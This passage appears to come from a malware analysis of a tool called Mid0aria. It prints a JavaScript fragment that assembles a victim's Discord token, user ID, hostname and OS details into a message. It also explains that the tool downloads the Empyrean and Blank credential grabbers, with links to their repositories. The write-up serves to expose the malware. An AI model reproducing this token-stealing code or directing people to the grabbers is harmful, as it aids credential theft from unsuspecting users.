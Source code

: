 ```javascript
        grabberType + // Search for ".exe", possibly downloads a malicious exe and tries to track which grabber it has used

        "\nUser ID: " +

        userId +

        "\nToken: ```" +

        discordToken +

        "``` \nHostname: " +

        platformInfo.hostname +

        "\nComputerType: " +

        platformInfo.version() +

        " / " +

        platformInfo.release() +

        " / " +

        platformInfo.platform() +

        " / " +

        platformInfo.arch() +

        "**",

    },

  });

}
```

It should be clear by now that, the code tries to download two grabbers: Empyrean Grabber and Blank Grabber. A quick search shows that both of those exist and are publicly available. [Empyrean](https://github.com/fnttrtx/empyrean-grabber-fixed?tab=readme-ov-file#features), [Blank](https://github.com/Blank-c/Blank-Grabber?tab=readme-ov-file#features).

This shows that Mid0aria not only is stealing tokens, but is also doing something much more harmful that steals a lot more than just a Discord token.

